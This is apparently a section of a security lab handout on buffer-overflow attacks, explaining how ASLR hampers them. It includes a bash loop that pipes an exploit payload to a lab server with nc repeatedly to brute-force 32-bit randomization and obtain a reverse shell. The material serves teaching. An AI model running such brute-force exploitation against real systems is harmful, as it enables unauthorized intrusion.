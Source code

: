 \section{Task 6: Experimenting with the Address Randomization}

At the beginning of this lab, we turned off one of the countermeasures,
the Address Space Layout Randomization (ASLR). In this task, we will turn
it back on, and see how it affects the attack. You can run 
the following command on your VM to enable ASLR. This change is global, and 
it will affect all the containers running inside the VM.


\begin{lstlisting}
$ sudo /sbin/sysctl -w kernel.randomize_va_space=2
\end{lstlisting}

Please send a \texttt{hello} message to the Level 1 and Level 3 servers,
and do it multiple times.
In your report, please report your observation, and explain why
ASLR makes the buffer-overflow attack more difficult. 


\paragraph{Defeating the 32-bit randomization.}
It was reported that on 32-bit Linux machines, only 19 bites can be used 
for address randomization.
That is not enough, and we can easily hit the target 
if we run the attack for sufficient number of times. For 64-bit 
machines, the number of bits used for randomization is 
significantly increased. 

In this task, we will give it a try on the 32-bit Level 1 server. 
We use the brute-force approach to attack the server repeatedly, hoping that 
the address we put in our payload can eventually be correct. 
We will use the payload from the Level-1 attack. 
You can use the following shell script to run the vulnerable program in an infinite loop. 
If you get a reverse shell, the script will stop; otherwise, it will keep running. 
If you are not so unlucky, you should be able to get a reverse shell within 10 minutes. 


\begin{lstlisting}[language=bash]
#!/bin/bash

SECONDS=0
value=0
while true; do
  value=$(( $value + 1 ))
  duration=$SECONDS
  min=$(($duration / 60))
  sec=$(($duration % 60))
  echo "$min minutes and $sec seconds elapsed."
  echo "The program has been running $value times so far."
  cat badfile | nc 10.9.0.5 9090
done
\end{lstlisting}



